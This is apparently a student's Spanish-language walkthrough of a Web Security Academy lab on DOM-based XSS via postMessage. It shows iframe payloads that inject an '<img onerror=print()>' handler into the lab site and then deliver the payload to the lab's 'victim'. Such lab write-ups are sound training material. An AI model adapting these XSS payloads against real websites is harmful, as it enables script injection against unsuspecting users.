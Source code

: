 No aparece nada más a simple vista

Este tipo de ataques pueden ser por pishing por lo que iremos al exploit

Según los apuntes

```html
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">

<iframe src="https://0a1a002203f1e380c0b1448100d800f1.web-security-academy.net/" onload="this.contentWindow.postMessage('print()','*')">

```
![](assets/2022-07-18-18-28-09.png)

Lo he lanzado y veo el iframe por lo cual está funcionando... pero creo que habrá que obligar al error.

Utilizamos lo títpico 
```html
<img src=1 onerror=print()>


<iframe src="https://0a1a002203f1e380c0b1448100d800f1.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
Ahora si me lo está lanzando

![](assets/2022-07-18-18-30-24.png)

Se lo mandamos a la victima
